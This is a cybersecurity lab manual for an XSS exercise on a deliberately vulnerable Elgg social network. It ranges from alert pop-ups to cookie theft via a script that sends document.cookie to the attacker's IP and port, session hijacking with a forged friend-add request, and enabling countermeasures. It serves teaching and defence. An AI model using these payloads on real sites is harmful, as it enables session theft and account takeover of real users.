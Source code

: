 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Cross-Site Scripting (XSS) Attack Lab
=================================

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject
malicious code (e.g. JavaScript programs) into victim’s web browser. Using this malicious code, the attackers can steal the sensitive information, such as session cookies. The access control policies employed by browsers using session cookies, for example, can be bypassed by exploiting the XSS vulnerability. Vulnerabilities of this kind can potentially lead to large- scale attacks.

  

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ labtainer xsite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM
    
 **If a network error occurs during a lab, stop the lab using 'stoplab' and enter 'docker network prune' in the terminal. Restart the lab with 'labtainer $labname'.
    
Scenario
===============

To demonstrate what attackers can do by exploiting XSS vulnerabilities, you will work will a web application named Elgg. Elgg is a popular open-source web application for social networking. Although it has implemented a number of countermeasures to remedy XSS threas, these countermeasures are removed in Elgg in your installation. This makes the Elgg site vulnerable to XSS attacks. Users can post any arbitrary message, including JavaScript programs, to the user profiles. 

In this lab, you will exploit this vulnerability to launch an XSS attack on the modified Elgg, in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among the users, such that whoever views an infected user's profile will then be infected them selves, and whoever is infected will add you (i.e., the attacker) to his/her friend list.

Environment Configuration
===============

This lab includes three networked computers as shown in Figure
>   [1.](#_bookmark0) 

The "vuln-site" runs the Apache web server and the Elgg web applications. The "attacker" and "victim" computers each include the Firefox browser. Use the browser Web Developer / Network tool (upper right menu), to inspect the HTTP requests and responses.

![](media/e42177508edcc836bbe205d1065f8c37.jpg)

Figure 1: Cross site scripting lab topology

   **Starting the Apache Server.** The Apache web server will be running when the lab commences. If you need to restart the web server, use the following
   command:
```
$ sudo systemctl restart httpd
```

   **The Elgg Web Application.** There are several user accounts on the Elgg server [http://www.xsslabelgg.com](http://www.xsslabelgg.com/) and the credentials are given below.

| User    | UserName | Password    |
|---------|----------|-------------|
| Admin   | admin    | seedelgg    |
| Alice   | alice    | seedalice   |
| Boby    | boby     | seedboby    |
| Charlie | charlie  | seedcharlie |
| Samy    | samy     | seedsamy    |


 **Other software.** Some of the lab tasks require some basic familiarity with JavaScript. Wherever necessary, JavaScript examples are provided to help get you started. To complete task 3, you will need a utility to watch incoming requests on a particular TCP port. The home directory on the attacker computer contains an ”echoserver” directory with a program (written in C) that can be configured to listen on a particular port and display incoming messages.

Task 4 requires modifications to, compilation and execution of a Java program on the attacker computer. This program is in the HTTPSimpleForge directory on the attacker computer, and that computer includes a JDK for compiling java.

Lab Tasks
===============

Task 1: Posting a Malicious Message to Display an Alert Window
===============
The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. 

- From the attackers terminal,  open a browser useing the command "firefox".
- Within this browser go to the site: http://www.xsslabelgg.com
- Log into the social networking site with Samy's credentials. (see table above)
- Navigate to your profile page *square icon with avatar shadow in upper-left corner
- Select "edit profile"

The "Brief Description" section will be rendered in other users' browsers when they visit your page.  This is where you (Samy) will place your scripts.

- Try using the following JavaScript snippet to display an alert window in the browser of anyone visiting your profile page:
```
<script>alert('XSS is bad');</script>
```
- After saving this, you will be returned to your profile page.  This shoud cause the browser to render this script and provide a pop-up alert. Try loggin out and testing this from an innocent victim's account.  

- You will have successfully completed this task once you have been able to get a pop-up alert (with a message) to appear upon any browser session open to Samy's profile page.

Bonus Info
=====

In this example, the JavaScript code is short enough to be typed into the short description field. If you want to run a longer JavaScript snippet, but you are limited by the number of characters you can type into the form, you can take a different approach. 

Store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the 'src' attribute in the <script> tag. See the following example:

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>

```

In the above example, the page will fetch the JavaScript program from [http://www.example.com](http://www.example.com/), which can be any location that you have chosen to host this script at (attacker's web server for example).

Task 2: Posting a Malicious Message to Display Cookies
===============

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies  will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task.

- Using the same process as before, try displaying the session cookie in the alert pop-up:

```
<script>alert(document.cookie);</script>
```

- You will have successfully completed this task once you have been able to get a pop-up to appear upon any browser session open to Samy's profile page, which displays the user's cookie.

Task 3: Stealing Cookies from the Victim’s Machine
===============

In the previous task, the malicious JavaScript code displays the user’s cookie information, but only the user can see this cookies. This is not helpful to an attacker. In this task, the attacker will use JavaScript code to send the cookies to himself/herself, making them useful for session highjacking. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookie information appended to the request.

We can do this by having the malicious JavaScript insert an *<*img*>* tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the image (img) tag, the browser tries to load the image from the URL in the src field. This results in an HTTP GET request being sent to the attacker’s machine. 

- The JavaScript snippet provided below sends the cookie information to port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. 

**Note that in the output, the "=" character gets transformed to %3D (hex).
```
<script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + ' >');</script>

# The attacker's IP address  is 172.25.0.3
```
- The TCP server program on the attacker's machine will print out what it recieved. to start this application on the attacker's machine, navigate to the "echoserver" directory.
- Access the "README" file and figure out how to run this program.  You **MUST** start the schoserv program before doing the XSS so that the attacker's machine can recieve the cookie informaiton that is sent.

- You will have completed this task once you have successfully been able to transmit cookie information from a user's session to the attacker's machine and read this out through the echoserv program.


Task 4: Session Hijacking using the Stolen Cookies
===============

After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine.

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s Web Developer / Network tool can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request.

- Open the Web Developer > Network Tool in your firefox browser.
- Now add Charlie as a friend.  Look at the very first "GET" request. You should be able to obtain the elgg_ts and elgg_token. Also note that Charlie's user ID is 41.

**Note:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed. The ts and token values shown here will be different than what you see...this is only an example!
- **Remove Charlie as a friend so you can test adding friends with your attacker's malicious program.

```
GET /action/friends/add?friend=40& elgg_ts=1402467511& elgg_token=80923e114f5d6c5606b7efaa389213b3
```

Once we have understood what the HTTP request for adding friends look like, we can write a Java program to send out the same HTTP request. The Elgg server cannot distinguish whether the request is sent out by the victim’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. To simplify your task, the HTTPSimpleForge directory on the attacker computer contains a sample Java program that does the following:

 - Navigate to the "/HTTPSimpleForge" directory on the attacker machine and open the "HTTPSimpleForge.java" program in the text editor leafpad:
 
 ```
 leafpad HTTPSimpleForge.java
 ```
 
 - You will now need to hand-code the elgg ts and token values from the information you learned in the previous steps. 
 
- You will now hand-code the cookie value (obtained using the technique in Task 3) into this program. In practice, such a program would read the cookie value off of the network as was done in Task 3.

- The cookie value itself will be replaced in the program in the "<<correct_cookie>> field. The line in the program should now read:

```
String cookies = "RANDOMSTRING_COOKIE_INFO"
```

-Save the file and close leafpad.



**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

   **Note 2:** Compile and run the java program using javac HTTPSimpleForge.java java HTTPSimpleForge

Task 5: Countermeasures
===============

   Elgg does have a built in countermeasures to defend against the XSS attack. We have deactivated and commented out the countermeasures to make the attack
   work. There is a custom built security plugin HTMLawed 1.8 on the Elgg web application which on activated, validates the user input and removes the
   tags from the input. This specific plugin is registered to the function filter tags in the elgg/ engine/lib/input.php file.

   To turn on the countermeasure, login to the application as admin, goto administration (on top menu) plugins (on the right panel), andSelect
   security and spam in the dropdown menu and click filter. You should find the HTMLawed 1.8 plugin below. Click on Activate to enable the countermeasure.

   In addition to the HTMLawed 1.8 security plugin in Elgg, there is another built-in PHP method called htmlspecialchars(), which is used to encode the
   special characters in the user input, such as encod- ing "\<" to &lt, "\>" to &gt, etc. Please go to the directory elgg/views/default/output and find
   the function call htmlspecialchars in text.php, tagcloud.php, tags.php, access.php, tag.php, friendlytime.php, url.php, dropdown.php, email.php and
   confirmlink.php files. Uncomment the corresponding "htmlspecialchars" function calls in each file.

Once you know how to turn on these countermeasures, please do the following:

1.  Activate only the HTMLawed 1.8 countermeasure but not htmlspecialchars; visit any of the victim profiles and describe your observations in your
    report.

2.  Turn on both countermeasures; visit any of the victim profiles and describe your observation in your report.

   **Note:** Please do not change any other code and make sure that there are no syntax errors.

Submission
==========
   After finishing the lab, go to the terminal on your Linux system that was
   used to start the lab and type:
```
>   stoplab xsite

```

References
==========

1.  Essential Javascript – A Javascript Tutorial. Available at the following
    URL:

>   <http://www.hunlock.com/blogs/Essential_Javascript_--_A_Javascript_Tutorial>.

2.  The Complete Javascript Strings Reference. Available at the following URL:

>   <http://www.hunlock.com/blogs/The_Complete_Javascript_Strings_Reference>.

3.  Technical explanation of the MySpace Worm. Available at the following URL:
    [http://namb.la/ popular/tech.html](http://namb.la/popular/tech.html).

4.  Elgg Documentation. Available at URL: <http://docs.elgg.org/wiki/Main_Page>.


